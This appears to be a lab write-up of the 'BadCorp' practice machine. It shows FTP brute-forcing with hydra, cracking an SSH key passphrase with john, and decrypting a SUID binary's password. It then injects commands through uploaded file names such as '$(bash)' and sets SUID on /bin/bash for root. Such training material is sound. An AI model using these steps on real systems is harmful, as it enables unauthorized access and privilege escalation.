 # BadCorp

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.160.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 13:28 +08
Nmap scan report for 192.168.160.133
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### Web Enumeration

The website was a corporate website:

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

First thing I noticed was the **phone numbers**. Normally machines, I see numbers like +12 345 678. This was the first box I saw that included unique phone numbers. I took a look at their team:

<figure><img src="../../../.gitbook/assets/image (151).png" alt=""><figcaption></figcaption></figure>

Again, phone numbers are unique here. This made me think about every little detail in the website, including the names of the users.&#x20;

There wasn't much more on the website, and we were just left with FTP and SSH.

### FTP Brute Force --> SSH Key

I took a look at this tweet regarding BadCorp:

{% embed url="https://twitter.com/offsectraining/status/1370149035059859459?lang=en" %}

To me, the 'insignificant information' was probably from the website. As such, I constructed wordlists based on the names of users and their phone numbers like this.

```
$ python2 username.py -n 'david williams' > user_word
$ cat pass_word                            
+23-34512435
2334512435
34512435
```

I then brute forced the FTP using `hydra` for each user and phone number, and eventually found one set of credentials that worked:

```
$ hydra -L user_word -P pass_word ftp://192.168.160.133
[21][ftp] host: 192.168.160.133   login: hoswald   password: 34566550
```

We can then login to FTP:

```
$ ftp 192.168.160.133                         
Connected to 192.168.160.133.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 6 of 50 allowed.
220-Local time is now 00:40. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
Name (192.168.160.133:kali): hoswald 
331 User hoswald OK. Password required
Password: 
230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 PORT command successful
150 Connecting to port 50225
-rwxrwxr--    1 0          0                1766 Feb 24  2021 id_rsa
226-Options: -l 
226 1 matches total
```

This file was password encrypted:

```
$ cat id_rsa                   
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,689C848171117DE40F9DDDC1059582EC
```

We can crack this using `ssh2john.py` and `john`:

```
$ ssh2john id_rsa > ssh.john
$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
developer        (id_rsa)     
1g 0:00:00:00 DONE (2023-07-13 13:42) 25.00g/s 3754Kp/s 3754Kc/s 3754KC/s dewthedew..derbeder
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Backup SUID --> Reverse Engineering

I searched for SUID binaries within the machine and found one that stood out:

{% code overflow="wrap" %}
```
hoswald@badcorp:~$ find / -perm -u=s -type f  2>/dev/null
/usr/local/bin/backup
hoswald@badcorp:~$ file /usr/local/bin/backup
/usr/local/bin/backup: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=bef7543cc2b4b67931b5b549440ba5d76270edac, not stripped
hoswald@badcorp:~$ /usr/local/bin/backup
USAGE: backup <password> 
hoswald@badcorp:~$ /usr/local/bin/backup test
Wrong Password !!!
```
{% endcode %}

I didn't recognise this `backup` binary, so I downloaded it back to my machine and opened it up in `ghidra`.&#x20;

### Ghidra + Ltrace --> Command Injection

I first ran the binary with `ltrace`:

```
$ ltrace ./backup id
setuid(0)                                                = -1
strstr("id", "..")                                       = nil
strstr("id", "/")                                        = nil
strstr("id", "|")                                        = nil
strstr("id", "<")                                        = nil
strstr("id", ">")                                        = nil
strstr("id", "&")                                        = nil
strstr("id", " ")                                        = nil
strstr("id", "'")                                        = nil
strstr("id", "-")                                        = nil
strstr("id", "%")                                        = nil
strncpy(0x7fff99859cae, "id", 9)                         = 0x7fff99859cae
strcmp("eh\f\f\f\f\f\f", "|8\177\177{<~:")               = -23
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

So it first makes us `root` and then checks for characters present. Afterwards, a basic `strcmp` is used to verify the password. The check for special characters seems to be a check for the bad characters:

```
$ ltrace ./backup '|8\177\177{<~:'
setuid(0)                                                = -1
strstr("|8\\177\\177{<~:", "..")                         = nil
strstr("|8\\177\\177{<~:", "/")                          = nil
strstr("|8\\177\\177{<~:", "|")                          = "|8\\177\\177{<~:"
puts("Bad character found !"Bad character found !
)                            = 22
strncpy(0x7ffe3e91560e, "|8\\177\\17", 9)                = 0x7ffe3e91560e
strcmp("p4P=;;P=7", "|8\177\177{<~:")                    = -12
puts("Wrong Password !!!"Wrong Password !!!
)                               = 19
+++ exited (status 0) +++
```

The bad characters don't include '$' and '()', opening up the possibility of command injection. Moving to `ghidra`, this binary prompts for a password before running the `check()` function to see if the password is correct, and then `copy()` if it is right:

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

The `copy()` function takes an encrypted password and XOR's it with `0xc`:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

We can first grab the `pw` global variable from the binary:

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption></figcaption></figure>

And then we can create a script in Python to decrypt this.&#x20;

```python
#!/usr/bin/python3
passwd = ''
cipher = bytes([0x3a, 0x7e, 0x3c, 0x7b, 0x7f, 0x7f, 0x38, 0x7c, 0x72])
b = bytes([0xc])
for x in reversed(cipher):
	ans = (x^0xc)
	passwd += chr(ans)

print (passwd)

$ python3 decrypt.py       
~p4ssw0r6
```

The first `~` character is not needed. We can then run the binary with the password:

```
hoswald@badcorp:~$ /usr/local/bin/backup p4ssw0r6
Create destination directory
FILE  id_rsa
ALL FILE COPYED IN /var/logs/hoswald/
```

We can move on to the `copy()` function now:

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

All the binaries use their full path values, so no path hijacks here. However, this seems to use directories within `/var/logs` and `/home/FTP`. I was already thinking of command injection using subshells, and it seems that this is the exploit needed.&#x20;

We can use FTP to a few malicious files since we don't have write access over those directories:

```
ftp> put $(id)
local: $(id) remote: $(id)
229 Extended Passive mode OK (|||65519|)
150 Accepted data connection
     0        0.00 KiB/s 
226 File successfully transferred
```

This works!

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

I then placed a file named `$(bash)` within the FTP directory, and it gave me a shell:

<figure><img src="../../../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

This shell was pretty limited and couldn't give me any output. However, we can simply run `chmod u+s /bin/bash`. In another shell, we can then get a proper `root` shell easily:

![](<../../../.gitbook/assets/image (20).png>)
